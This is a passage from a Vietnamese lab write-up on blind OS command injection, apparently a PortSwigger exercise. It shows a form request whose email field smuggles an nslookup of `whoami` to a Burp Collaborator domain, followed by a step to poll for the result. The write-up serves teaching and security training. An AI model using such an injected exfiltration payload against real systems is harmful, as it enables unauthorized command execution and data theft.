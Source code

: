     ![image.png](/OS%20command%20injection/images/image%2023.png)
    
- Sử dụng Burp [Collabrator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) để lấy thông tin fake domain, sau đó tiến hành payload
    
    ```bash
    csrf=juthtTChOc8nA7hY3xWVVvGvWjXnpZgt&name=jayce&email=||nslookup+`whoami`.qoi5knhj9ginkzn4op9193anmes5gw4l.oastify.com||&subject=IT&message=Hello
    ```
    
    ![image.png](/OS%20command%20injection/images/image%2024.png)
    
- Quay lại Burp [Collabrator](https://portswigger.net/burp/documentation/desktop/tools/collaborator), thực hiện poll
    